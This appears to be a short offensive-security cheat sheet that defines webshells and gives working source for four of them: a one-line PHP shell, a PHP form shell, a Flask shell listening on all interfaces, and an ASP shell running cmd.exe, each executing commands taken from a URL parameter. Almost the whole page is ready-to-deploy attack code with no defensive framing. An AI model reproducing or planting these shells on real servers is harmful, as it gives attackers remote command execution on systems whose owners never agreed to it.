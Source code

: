 A **webshell** is a malicious script uploaded to a web server to enable remote command execution. 


## Basic PHP Command Prompt

A simple PHP script can be used to execute system commands via a GET request:

```php
<?php system($_GET['cmd']); ?>
```

This allows to execute commands by passing them in the URL, such as:

```
http://example.com/shell.php?cmd=whoami
```

## PHP Webshell

A more interactive **webshell** can be created using an HTML form to execute commands:

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

This script provides a simple web interface to execute system commands by entering them into the form field.

## Python Webshell

```python
import os
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    return 'Send a command using ?cmd=your_command'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

This Python webshell uses Flask to run system commands via HTTP requests.

## ASP Webshell

```
<%
Set shell = Server.CreateObject("WScript.Shell")
cmd = Request.QueryString("cmd")
If cmd <> "" Then
    Set exec = shell.Exec("cmd.exe /c " & cmd)
    Response.Write("<pre>" & exec.StdOut.ReadAll() & "</pre>")
End If
%>
```

This ASP webshell executes system commands using `cmd.exe` and displays the output.